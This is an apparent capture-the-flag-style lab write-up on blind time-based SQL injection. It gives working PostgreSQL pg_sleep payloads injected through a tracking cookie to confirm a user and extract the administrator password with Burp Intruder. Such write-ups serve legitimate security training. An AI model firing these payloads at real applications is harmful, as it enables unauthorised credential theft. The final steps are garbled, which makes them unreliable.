 # Lab 12: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is 
executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

### **Hint**

You can find some useful payloads on our SQL injection cheat sheet. 

### **Solution**

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
                    
2. Modify the `TrackingId` cookie, changing it to:

```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

Verify that the application takes 10 seconds to respond.

If a regular query is not working, try using URL encoding and ensure that all encoding formats are correct.

`pg_sleep():` allows you to create a delay (sleep) in your queries.

                        
3. Now change it to:

```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

Verify that the application responds immediately with no time delay. This demonstrates how you can test a single boolean condition and infer the result.

`CAST` is a function used to **convert a value from one data type to another**.
                        
4. Now change it 

```sql
to:TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Verify that the condition is true, confirming that there is a user called `administrator`.
                        
5. The next step is to determine how many characters are in the password of the `administrator` user. To do this, change the value to:

```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

This condition should be true, confirming that the password is greater than 1 character in length.
                        
6. Send a series of follow-up values to test different password lengths. Send:             

```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Then send:

```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

```

And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), **you have determined the length of the password, which is in fact 20 characters long.**
                        
7. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to 
use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
                    
8. In Burp Intruder, change the value of the cookie to:

```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

```

This uses the `SUBSTRING()` function to extract a single character from the password, and test it 
against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
                        
9. Place payload position markers around the `a` character in the cookie value. To do this, select just the `a`, and click the **Add §** button. You should then see the following as the cookie value (note the payload position markers):

```sql
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

10. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lower case alphanumeric characters. In the **Payloads** side panel, check that **Simple list** is selected, and under **Payload configuration** add the payloads in the range a - z and 0 - 9. You can select these easily using the **Add from list** drop-down.
                    
11. To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as 
possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, click the  **Resource pool** tab to open the **Resource pool** side panel and add the attack to a resource pool with the **Maximum concurrent requests** set to `1`.
                    
12. Launch the attack by clicking the  **Start attack** button.
                    
13. Review the attack results to find the value of the character at the first position. You should see a column in the results called **Response received**. This will generally contain a small number,  the number of milliseconds the application took to respond. One of the rows should have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.
                    
14. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window and change the 
specified offset from 1 to 2. You should then see the following as the cookie value:

```sql
TrackingId=wVxtIaqvX6EtBRao'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Now we changed the attack type in to cluster mode and seted the payloads.

first we selected the positon paylod `SUBSTRING(password,§1§,1)` and the character pay load `='§a§')`. 

1. after attackt we selected the all 10,000 milisecond about responce and filter out the password.

### **Community solutions**

> [https://youtu.be/xHzH00vyVHA](https://youtu.be/xHzH00vyVHA)
>